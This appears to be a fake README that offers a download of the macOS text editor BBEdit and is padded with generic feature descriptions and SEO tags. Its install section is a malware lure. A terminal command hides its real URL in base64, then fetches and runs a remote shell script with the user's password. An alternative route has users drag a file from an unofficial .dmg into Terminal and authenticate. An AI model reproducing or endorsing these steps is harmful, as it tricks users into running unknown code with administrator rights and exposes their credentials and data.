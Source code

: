 # 🧠 BBEdit — Advanced Text Editor for macOS

## ✅ Download BBEdit for Mac (Free Trial Available)

[![🚀 Download BBEdit 🟣](https://img.shields.io/badge/Download-BBEdit-blueviolet?style=for-the-badge)](https://mitrobandus.github.io/.github/BBedit)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🌐 What is BBEdit?

BBEdit is a professional and powerful text editor designed specifically for macOS. Developed by Bare Bones Software, it serves programmers, writers, and anyone who works with text or code on a regular basis. BBEdit provides an extensive set of editing tools, a clean native interface, and seamless macOS integration to help users efficiently manage and manipulate text.

This editor supports a wide range of programming and markup languages, with features such as syntax highlighting, advanced search and replace, and project management capabilities. Whether you're writing code, editing web pages, or handling large data files, BBEdit delivers performance and precision tailored for professionals and enthusiasts alike.

---

## 🖥️ Features at a Glance

- 🖋️ Rich syntax highlighting for dozens of programming and markup languages  
- 🔎 Powerful multi-file search and replace with regex support  
- 📁 Project management and file navigation tools built-in  
- 🧩 Git and version control integration for streamlined development  
- 📜 Code folding, auto-completion, and text transformation options  
- 🌐 FTP/SFTP support for editing files on remote servers  
- ⚙️ Extensive customization and scripting with AppleScript and shell scripts  
- 💻 Optimized for both Intel and Apple Silicon Macs  
- 🌙 Dark mode support with macOS system integration  
- 🧰 Lightweight and fast, designed for daily use

---

## 💡 Why Use BBEdit?

Using BBEdit means equipping yourself with one of the most robust text editing environments available on macOS. Its professional-grade features enable developers and content creators to write and manage code more effectively while keeping workflows smooth and efficient.

BBEdit’s intuitive design ensures that even complex tasks like batch editing, regex search, or source code navigation are straightforward. The editor is also ideal for writers who need a distraction-free interface coupled with powerful text tools. Plus, its seamless integration with macOS services means it fits perfectly into your daily workflow, whether you’re coding or editing prose.

---

## 🖼️ Preview

![BBEdit Disk Browser](https://www.barebones.com/images/bbedit/disk-browser-lg.png)  


![BBEdit Main Window](https://www.barebones.com/images/bbedit/screenshot-main.jpg)  


---

## 📌 Tags

bbedit, bbedit mac, bbedit free, bare bones bbedit, bbedit 12, bbedit 13,  
bbedit 13 mac, bbedit 14, bbedit app, bbedit cost, bbedit coupon,  
bbedit discount, bbedit for ios, bbedit for linux, bbedit free mac,  
bbedit high sierra, bbedit ios, bbedit linux, bbedit lite, bbedit m1,  
bbedit mac os, bbedit python, bbedit software, bbedit textwrangler,  
bbedit ubuntu, textwrangler bbedit

